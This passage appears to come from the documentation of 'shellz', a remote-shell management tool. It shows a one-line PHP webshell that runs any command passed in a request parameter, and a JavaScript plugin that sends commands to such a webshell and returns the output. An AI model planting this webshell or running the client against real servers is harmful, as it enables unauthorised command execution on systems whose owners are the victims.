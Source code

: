 As you probably noticed, the `host` field is the full URL of a very simple PHP webshell uploaded on some website:

```php
<?php system($_REQUEST["cmd"]); die; ?>
```

Also, the `type` field is set to `mycustomshell`, in this case `shellz` will try to load the file `~/.shellz/plugins/mycustomshell.js` and use it to create a session and execute a command.

A `shellz` plugin must export the `Create`, `Exec` and `Close` functions, this is how `mycustomshell.js` looks like:

```js
var headers = {
    'User-Agent': 'imma-shellz-plugin'
};

/*
 * The Create callback is called whenever a new command has been queued
 * for execution and the session should be initiated, in this case we
 * simply return the main shell object, but it might be used to connect
 * to the endpoint and store the socket on a more complex Object.
 */
function Create(sh) {
    log.Debug("Create(" + sh + ")");
    return sh;
}

/*
 * Exec is called for each command, the first argument is the object
 * returned from the Create callback, while the second is a string with the
 * command itself.
 */
function Exec(sh, cmd) {
    log.Debug("running " + cmd + " on " + sh.Host);
    /*
     * OR
     *
     * var resp = http.Post(sh.Host, headers, {"cmd":cmd});
     */
    var resp = http.Get(sh.Host + "?cmd=" + cmd, headers)
    if( resp.Error ) {
        log.Error("error while running " + cmd + ": " + resp.Error);
        return resp.Error;
    }
    return resp.Raw;
}

/*
 * Used to finalize the state of the object (close sockets, etc).
 */
function Close(sh) {
    log.Debug("Close(" + sh + ")");
}
```
